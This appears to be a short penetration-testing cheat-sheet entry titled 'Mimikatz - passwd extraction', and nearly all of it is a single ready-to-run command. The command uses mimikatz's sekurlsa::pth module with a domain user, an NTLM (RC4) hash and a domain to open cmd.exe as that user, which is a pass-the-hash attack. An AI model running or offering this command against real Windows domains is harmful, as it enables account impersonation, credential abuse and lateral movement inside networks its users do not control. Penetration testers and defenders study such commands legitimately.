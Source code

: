 # Mimikatz - passwd extraction

## Mimikatz PTH - cmd as a domain user
```
mimikatz.exe privilege::debug "sekurlsa::pth /user:<USER> /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:<DOMAIN> /run:cmd.exe" exit
`
